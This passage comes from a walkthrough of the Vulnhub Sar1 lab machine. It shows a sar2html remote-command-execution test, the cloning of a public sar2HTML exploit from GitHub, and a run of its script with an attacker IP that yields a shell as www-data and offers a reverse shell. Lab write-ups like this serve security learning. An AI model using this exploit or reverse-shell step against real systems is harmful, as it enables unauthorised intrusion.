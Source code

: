 It looks like a simple exploit. Let's try a simple command like `whoami` to see if it works.


![Image](/assets/img/WriteUp/Vulnhub/Sar1/Pasted image 20230227215242.png){: width="700" height="400" }

It looks like it works, let's try to find another exploit that can help us with a reverse shell. The search query I used is:
```
https://www.google.com/search?q=sar2html+rce
```

One of the results came back with Google is:
```
https://github.com/AssassinUKG/sar2HTML
```

After reading the exploit on the Github site I decided to git clone the exploit to my project directory.

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Sar1]
└─$ git clone https://github.com/AssassinUKG/sar2HTML.git
Cloning into 'sar2HTML'...
remote: Enumerating objects: 43, done.
remote: Counting objects: 100% (43/43), done.
remote: Compressing objects: 100% (40/40), done.
remote: Total 43 (delta 11), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (43/43), 149.12 KiB | 2.16 MiB/s, done.
Resolving deltas: 100% (11/11), done.

┌──(emvee㉿kali)-[~/Documents/Vulnhub/Sar1]
└─$ cd sar2HTML  

┌──(emvee㉿kali)-[~/Documents/Vulnhub/Sar1/sar2HTML]
└─$ ls
assets  README.md  sar2HTMLshell.py

```

## Initial access

Now we can try to get a reverse shell with exploit cloned from Github.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Sar1/sar2HTML]
└─$ python3 sar2HTMLshell.py -ip $ip -rip 10.0.2.15 -pe sar2HTML
                _____  _   _ ________  ___ _     
               / __  \| | | |_   _|  \/  || | 
 ___  __ _ _ __`' / /'| |_| | | | | .  . || | 
/ __|/ _` | '__| / /  |  _  | | | | |\/| || |  
\__ \ (_| | |  ./ /___| | | | | | | |  | || |____                                                                                    
|___/\__,_|_|  \_____/\_| |_/ \_/ \_|  |_/ \_____/   

The Host Appears Vulnerable, Running a basic shell ...
Enter: 'rs session' for a ReverseShell
$\cmd> whoami
------- Results -------
www-data
$\cmd> 

```
So we can run command now, so let's get started enumerating on the victim.
